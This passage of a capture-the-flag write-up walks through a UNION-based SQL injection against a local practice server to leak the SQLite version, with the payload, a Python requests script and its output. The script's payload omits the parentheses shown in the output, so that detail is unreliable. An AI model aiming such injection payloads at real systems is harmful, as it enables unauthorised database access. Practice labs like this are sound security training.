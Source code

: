 ```py title="/challenge/server" showLineNumbers
        """


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

In this challenge, the table name is randomized, so we first have to figure that out.

### SQL injection
#### Retrieving SQLite version

The SQLite version can be retrieved using the following query:

```
SELECT sqlite_version();
```

If we provide the following request:

```
query: 'admin" UNION SELECT sqlite_version()-- -'
```

The resultant query will be:

```sql
SELECT username FROM {random_user_table} WHERE username LIKE "admin" UNION SELECT sqlite_version()-- -"
```

```py title="~/script.py" showLineNumbers
import requests

url = "http://challenge.localhost:80"
params = {
    "query": 'admin" UNION SELECT sqlite_version-- -'
}
response = requests.get(url, params = params)
print(response.text)
```

```
hacker@web-security~sqli-4:/$ python ~/script.py 

        <html><body>Welcome to the user query service!
        <form>Query:<input type=text name=query value='admin" UNION SELECT sqlite_version()-- -'><input type=submit value=Submit></form>
        <hr>
        <b>Query:</b> <pre>SELECT username FROM REDACTED WHERE username LIKE "admin" UNION SELECT sqlite_version()-- -"</pre><br>
        <b>Results:</b><pre>3.31.1
admin</pre>
        </body></html>
```
